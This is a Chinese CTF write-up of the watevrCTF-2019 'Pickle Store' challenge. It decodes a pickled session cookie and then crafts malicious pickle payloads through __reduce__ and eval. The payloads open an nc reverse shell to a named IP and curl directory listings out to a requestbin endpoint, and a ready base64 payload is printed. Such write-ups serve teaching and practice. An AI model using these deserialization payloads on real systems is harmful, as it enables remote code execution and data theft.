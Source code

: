 # \[watevrCTF-2019]Pickle Store

## \[watevrCTF-2019]Pickle Store

## 考点

* pickle反序列化

## wp

题目名字也提示了是pickle反序列化

先看看session

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

base64解码得到

```
\x80\x03}q\x00(X\x05\x00\x00\x00moneyq\x01M\xf4\x01X\x07\x00\x00\x00historyq\x02]q\x03X\x10\x00\x00\x00anti_tamper_hmacq\x04X \x00\x00\x00aa1ba4de55048cf20e0a7a63b7f8eb62q\x05u.
```

python中使用pickle.dumps()函数序列化，使用pickle.loads()函数反序列化，这两个函数是操作字符串的。

不同版本或者不同平台下Python序列化结果不同

`\x80\x03`是Python pickle反序列化的标准开头

```python
import binascii
import pickle

s='gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'
pickle.loads(binascii.a2b_base64(s))
```

反序列化之后可以得到一个字典

```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

题目提示够买flag需要1000块，感觉修改字典再序列化

![](<../../.gitbook/assets/image (31) (1).png>)

```python
t = {'money': 1000, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
binascii.b2a_base64(pickle.dumps(t))
# b'gASVUgAAAAAAAAB9lCiMBW1vbmV5lE3oA4wHaGlzdG9yeZRdlIwQYW50aV90YW1wZXJfaG1hY5SMIGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYylHUu\n'
```

尝试失败，再看字典的元素，`anti_tamper_hmac`这个元素在够买后发生了改变，应该是后端对key和value做了某种hash加密，由于不知道加密方式，所以不能修改`money`。

尝试反序列化RCE

```python
import binascii
import pickle

shell = '''__import__('os').system('nc 81.68.218.54 30000 -e/bin/sh')'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

得到`gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDgxLjY4LjIxOC41NCAzMDAwMCAtZS9iaW4vc2gnKZSFlFKULg==`

修改session刷新页面即可反弹shell

![](<../../.gitbook/assets/image (19).png>)

或者使用[`RequestBin`](http://requestbin.cn)接收数据

```python
import binascii
import pickle

shell = '''__import__('os').system("echo `ls` > /tmp/1.txt;curl -v -X POST 'http://requestbin.cn:80/t9dmemt9' -d @/tmp/1.txt")'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

![](<../../.gitbook/assets/image (18).png>)
